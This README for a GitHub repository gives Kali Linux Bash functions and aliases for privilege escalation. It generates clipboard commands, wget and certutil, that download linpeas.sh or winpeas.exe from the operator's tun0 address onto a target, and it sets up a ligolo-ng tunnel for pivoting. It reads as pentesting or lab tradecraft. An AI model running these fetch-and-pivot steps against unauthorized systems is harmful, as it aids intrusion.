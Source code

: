 # Kali Linux Productivity Functions & Aliases for Privilege Escalation

This repository contains custom Bash functions and aliases that streamline privilege escalation workflows on Kali Linux. These shortcuts are tailored for common Linux and Windows enumeration tasks, file hosting, and working with tunneling tools like Ligolo.

---

## ⚙️ Installation & Requirements

To ensure all functions and aliases work correctly, make sure the following tools are installed:

### ✅ Required Tools

| Tool         | Description                                                  | Install Command                                     |
|--------------|--------------------------------------------------------------|-----------------------------------------------------|
| `xsel`       | Copies commands to the system clipboard                      | `sudo apt install xsel -y`                          |
| `ligolo-ng`  | Tunneling tool for pivoting and internal access              | [Install from official repo](https://github.com/Nicocha30/ligolo-ng) or build manually |
| `python3`    | Required for the HTTP server                                 | Pre-installed on most Kali setups                   |

### 📂 Directory Setup

Ensure you have the following folder structure to serve your PEAS tools:

```bash
mkdir -p ~/Desktop/privesc/linux
mkdir -p ~/Desktop/privesc/windows
```

Place any Linux or Windows privilege escalation scripts withing the respective folders that were created,

---

## 📜 Functions Explained

### `lpe`
> **Purpose:** Quickly host `linpeas.sh` and copy a ready-to-use `wget` command to your clipboard.

- Extracts your IP address from the `tun0` interface.
- Generates a `wget` command pointing to your hosted `linpeas.sh` script.
- Copies the command to your clipboard using `xsel`.
- Serves files from your Linux privilege escalation directory via Python's built-in HTTP server.

---

### `wpe`
> **Purpose:** Host `winpeas.exe` and copy a ready-to-use `certutil` command to your clipboard.

- Retrieves your `tun0` IP address.
- Generates a `certutil` command to download `winpeas.exe` on a Windows target.
- Copies the command to your clipboard.
- Starts an HTTP server from the Windows privilege escalation folder.

---

### `ligolo_add_route`
> **Purpose:** Add a new route through the `ligolo` TUN interface.

- Validates that a subnet (e.g., `10.10.10.0/24`) is provided.
- Adds the route via the `ligolo` interface using `ip route add`.

---

## 🔗 Aliases Explained

- `ll` → `ls -l`: Long listing format.
- `la` → `ls -A`: List all entries except `.` and `..`.
- `l` → `ls -CF`: Classify entries and display in columns.
- `www` → Starts a quick HTTP server in the current directory.
- `clip` → Copy input to clipboard using `xsel`.
- `ligolo` → Sets up the Ligolo tunneling interface and starts the proxy binary.

---

## 💻 Full Function & Alias Definitions

**Place these into your `~/.zshrc` (or `~/.bashrc` if you're on an older Kali Linux version).**

Once placed, save the file and don't forget to `source ~/.zshrc` if you're in the same terminal instance.

```bash
function lpe(){
    get_ip=`ip a show tun0 | grep "inet " | awk '{print $2}' | rev | cut -c 4- | rev`
    echo -n "wget http://${get_ip}:8000/linpeas.sh" | xsel --input --clipboard --trim
    ls /home/kali/Desktop/privesc/linux && python3 -m http.server --directory /home/kali/Desktop/privesc/linux
}

function wpe(){
    get_ip=`ip a show tun0 | grep "inet " | awk '{print $2}' | rev | cut -c 4- | rev`
    echo -n "certutil -urlcache -f \"http://$get_ip:8000/winpeas.exe\" winpeas.exe" | xsel --input --clipboard --trim 
    ls /home/kali/Desktop/privesc/windows && python3 -m http.server --directory /home/kali/Desktop/privesc/windows
}

function ligolo_add_route(){
    if [ "$#" -ne 1 ]; then
        echo "Usage: ligolo_add_route <subnet>"
        exit 1
    fi
    sudo ip route add $1 dev ligolo
}

alias ll='ls -l'
alias la='ls -A'
alias l='ls -CF'
alias www='python3 -m http.server'
alias clip='xsel --input --clipboard --trim'
alias ligolo='sudo ip tuntap add user kali mode tun ligolo && sudo ip link set ligolo up && echo "[*] Add a Route using: ligolo_add_route <subnet>" && /home/kali/Desktop/privesc/linux/proxy -selfcert'
```

---

## 🧠 Notes

- Ensure `xsel` is installed for clipboard functionality.
- Replace file paths with your actual directories if different.
- Requires root privileges for networking commands like `ip route add`.

---

If you have other aliases that should be used, let us know and we will add them, with credits, of course!
